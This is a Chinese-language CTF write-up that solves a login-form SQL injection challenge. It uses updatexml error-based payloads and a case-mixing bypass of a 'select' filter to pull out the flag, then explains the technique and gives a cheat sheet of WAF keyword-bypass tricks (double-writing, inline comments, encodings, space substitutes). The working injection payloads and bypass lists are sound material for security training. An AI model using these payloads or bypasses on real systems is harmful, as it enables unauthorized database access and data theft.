






> 本文部分内容参考了 [https://wiki.cauc-csa.org.cn/ctf/web/vulnerabilities/sqlinj/sql/](https://wiki.cauc-csa.org.cn/ctf/web/vulnerabilities/sqlinj/sql/)

## 一、解题过程

### 1.1 打开

题目给URL：

```
http://xxxxx.http-ctf2.dasctf.com/login.php/
```

是一个登录界面，有账号和密码输入框。和上一篇不一样，这次不是 `?id=1` 直接查，而是要登录。这意味着就算注入，结果也不会直接显示在页面上，UNION注入的回显位思路用不了

### 1.2 看源码走后门

先看源码。HTML里有一行注释：

```html
<!-- 如果觉得太难了，可以在url后面加个?tips=1 开启mysql错误提示,使用burp抓包就可以看到咯-->
```

出题人直接告诉：加 `?tips=1` 能开启报错回显，但要用Burp抓包

### 1.3 试着注入

登录是通过POST请求发送的，参数是 `name` 和 `pass`。用Burp拦截后，在URL后加上 `?tips=1`，然后测试 `name` 

传一个单引号 `'`，页面返回了SQL错误：



**确认：name 参数存在SQL注入，字符串型（单引号闭合）**

> 判断字符型还是数字型有个小技巧：传奇数个单引号报错，传偶数个不报错，就是字符型。因为字符型的查询是 `WHERE name='输入'`，奇数个引号会让引号无法配对，偶数个刚好配对

### 1.4 报错注入查库名

没有回显位，但tips=1给了报错信息，所以用 `updatexml()` 报错注入：

```
name=' and updatexml(1,concat(0x7e,database(),0x7e),1)-- -
&pass=111
```

报错信息回显：

```
XPATH syntax error: '~note~'
```



库名拿到了：`note`，`~` 是 `0x7e` 的字符，用来标记数据的起止位置，方便在报错信息里一眼定位

### 1.5 但select被过滤了

接下来照惯例查表名，结果炸了：

```
name=' and updatexml(1,concat(0x7e,(select group_concat(table_name)
from information_schema.tables where table_schema=database()),0x7e),1)-- -
```

报错：



语法错误在 `from` 附近，`select ... from ...` 为什么会语法错误，之前查 `database()` 的时候用的是 `(select database())`，那个成功了。但如果 `select` 被删了呢

- `(select database())` → `select` 被删 → `( database())` → `database()` 本身就是个函数，不需要select也能执行 → **成功了，但不是因为select在，而是因为select不在也没关系**
- `(select table_name from ...)` → `select` 被删 → `( table_name from ...)` → `from` 前面没有select → **语法错误**

**试了后确实，`select` 被过滤**之前 `(select database())` 能成功纯属巧合，因为`database()` 是个函数，有没有select都能跑。但 `from` 子句必须要有select，所以一用就炸

> 发现"有些payload能成功有些不能"时，很可能是某个关键字被过滤了。一个简单的验证方法：用一个不依赖该关键字的payload和一个依赖该关键字的payload做对比

### 1.6 大小写绕过

试了一下：

```
name=' and updatexml(1,concat(0x7e,(Select group_concat(table_name)
from information_schema.tables where table_schema=database()),0x7e),1)-- -
```



报错回显：`~fl4g,users~`

**绕过成功！** 表名是：`fl4g` 和 `users`

### 1.7 查字段

```
name=' and updatexml(1,concat(0x7e,(Select group_concat(column_name)
from information_schema.columns where table_name='fl4g'),0x7e),1)-- -
```

回显：`~flag~`



### 1.8 拿到flag

```
name=' and updatexml(1,concat(0x7e,(Select flag from fl4g),0x7e),1)-- -
```

回显：

> `n1book{login_sqli_is_nice}`



flag到手。全过程：**Burp加tips=1 → 测单引号确认字符型 → updatexml报错注入 → 发现select被过滤 → Select绕过 → 查库查表查字段 → 拿flag**

## 二、报错注入的原理

### 2.1 是什么

数据库在执行非法SQL表达式时会抛出错误信息，利用他把想要的数据藏在报错内容里返回出来

上一篇的UNION注入需要页面有回显位——查询结果能直接显示在页面上。但这道登录题没有回显位，不管你查到什么，页面上只显示"账号或密码错误"。但tips=1开启后，SQL错误信息会被打印出来，这就是报错注入的入口

> 报错注入的前提是：**页面会显示SQL错误信息**。真实环境中大多数生产服务器都关闭了错误回显，所以报错注入在实战中不太常见。但CTF里只要有报错回显，就优先考虑

### 2.2 updatexml 怎么工作

`updatexml(目标XML, XPath路径, 新值)` 是MySQL的XML函数，第二个参数必须是合法的XPath格式。如果传一个非法的XPath，MySQL就会报错，而且报错信息里会包含这个参数的值

所以核心思路就是：**把要查的数据拼进XPath参数里，让MySQL报错时把它吐出来**

```
updatexml(1, concat(0x7e, database(), 0x7e), 1)
                ↑                  ↑
           ~note~ 是非法XPath，报错时回显 ~note~
```

`0x7e` 是 `~` 的十六进制，`~note~` 不是合法的XPath格式，所以MySQL报错：`XPATH syntax error: '~note~'`。数据就这么从报错信息里漏出来了

### 2.3 和UNION注入的对比

| | UNION注入（上一篇） | 报错注入（本篇） |
|---|---|---|
| **前提** | 页面有回显位 | 页面显示SQL错误 |
| **核心函数** | `union select` | `updatexml()` / `extractvalue()` |
| **数据输出方式** | 直接显示在页面的回显位 | 藏在报错信息里 |
| **闭合方式** | 一样（引号闭合 + 注释） | 一样 |

两道题的注入类型都是字符串型，都需要引号闭合，查数据的流程也一样（查库→查表→查字段→查数据）。区别只在于**数据怎么从数据库传到眼前**——UNION靠回显位，报错靠错误信息

## 三、关键词绕过技巧

本题 `select` 被过滤，其实是SQL注入里很常见的情况——WAF过滤了关键词，你需要想办法绕过。这里结合 [CSA Wiki](https://wiki.cauc-csa.org.cn/ctf/web/vulnerabilities/sqlinj/sql/) 的总结，把常见的绕过方式梳理一下

### 3.1 大小写绕过（本题用的）

WAF用大小写敏感的方式过滤关键词（比如 `str_replace('select', '', $input)`），但MySQL本身关键字不区分大小写。所以 `SeLeCt` 能绕过WAF，又被数据库正常解析

```
select → SeLeCt、sElEcT、SELECT
union  → UnIoN、uNiOn
```

> 这种绕过只对大小写敏感的过滤有效。如果WAF先把输入转成小写再匹配（`str_replace('select', '', strtolower($input))`），大小写混写就没用了

### 3.2 双写绕过

如果WAF是把关键词替换成空字符串，可以双写让它在删除后重新拼成关键词：

```
select  → selselectect
          ↑删除中间的select↑
          剩下 select
union   → ununionion
```

WAF删掉一个 `select`，剩下的 `sel` + `ect` 又拼成了一个完整的 `select`

### 3.3 内联注释绕过

MySQL支持 `/*!...*/` 内联注释，注释里的内容会被MySQL执行，但WAF可能不识别：

```sql
/*!select*/        -- MySQL会执行，WAF可能不认
/*!50000select*/   -- 指定MySQL版本5.00.00+才执行
```

也可以用 `/**/` 替代空格来打断关键词：

```sql
sel/**/ect         -- WAF看到的是 sel+注释+ect，不匹配 select
                    -- MySQL忽略注释，解析为 select
```

### 3.4 编码绕过

对关键词进行URL编码或十六进制编码，绕过WAF的字符串匹配：

| 编码方式 | 示例 |
|---------|------|
| URL编码 | `select` → `%73elect` |
| 十六进制 | `0x73656c656374` |
| char()函数 | `char(115,101,108,101,99,116)` |
| Unicode编码 | `'` → `\u0027` |
| UTF-8编码 | `%bf%27`（宽字节绕过转义） |

### 3.5 空格绕过

有时候WAF过滤的是空格而不是关键词本身，可以用其他字符替代：

| 绕过方式 | 示例 |
|---------|------|
| 注释替代空格 | `union/**/select` |
| Tab | `%09` |
| 换行 | `%0a` |
| 括号拼接 | `union(select(1),2,3)` |
| 尖括号 | `<>union<>select<>1,2,3` |

### 3.6 等价函数替换

有些WAF过滤了特定函数名，但MySQL有等价的替代：

| 被过滤 | 替代方案 |
|--------|---------|
| `database()` | `schema()` |
| `user()` | `@@user`、`current_user()` |
| `substr()` | `mid()`、`substring()` |
| `concat()` | `concat_ws()`、`group_concat()` |
| `information_schema.tables` | `sys.schema_table_statistics` |

> 绕过的核心思路就一个：**WAF看到的和数据库看到的不一样**。不管是大小写、双写、注释、编码，本质上都是让WAF认不出关键词，但数据库还能正常解析。实际做题时多试几种，哪种能用用哪种

## 四、总结

两道题是两种不同场景：

- **上一篇**：笔记系统有回显，UNION注入直接把查询结果显示在页面上
- **本篇**：登录系统没有回显，但tips=1给了报错信息，用updatexml把数据藏在错误里展示出来
- 本题多了一个点：**select被过滤**：用 `Select` 大小写混写绕过

